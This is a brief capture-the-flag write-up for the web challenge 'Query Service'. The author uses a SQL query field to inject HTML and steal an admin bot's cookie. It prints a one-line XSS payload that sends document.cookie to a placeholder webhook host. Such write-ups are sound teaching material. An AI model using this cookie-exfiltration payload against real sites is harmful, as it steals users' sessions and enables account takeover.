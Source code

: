 ### Chall Desc
I've made a little website to access a SQL database. I even added a way to share your queries with other people! Just copy the link.
Hint1: The contents of the database will give you some info on what to do next.
Hint2: You can only change the query; can you inject arbitrary HTML with it?

## Analyzing the website

We are given a query input field where we can input sql statements.We can `sqlite_master` table to get the structure of the database and the tables.  

![sql schema](https://github.com/ckc1404/CTF_writeups/blob/main/BCACTF/WEB/Query%20Service/schema.png)

We see a notes table and we try seeing the contents of it as well.  

![notes table](https://github.com/ckc1404/CTF_writeups/blob/main/BCACTF/WEB/Query%20Service/notes.png)  

It gives us a link to a admin bot which has the flag as the cookie and this seems like a XSS challenge now.  

We can inject html into the field using the below command  

Command --> `select "<img src=x onerror=this.src='https://webhook_url/?cookie='+document.cookie;>"`

Giving the link of the submitted page to the admin bot gives us requests in the webhook page which we have opened.

![admin bot](https://github.com/ckc1404/CTF_writeups/blob/main/BCACTF/WEB/Query%20Service/admin_bot.png)

We get the flag the cookie section in the webhook request.  

![flag_output](https://github.com/ckc1404/CTF_writeups/blob/main/BCACTF/WEB/Query%20Service/flag.png)

Thank you
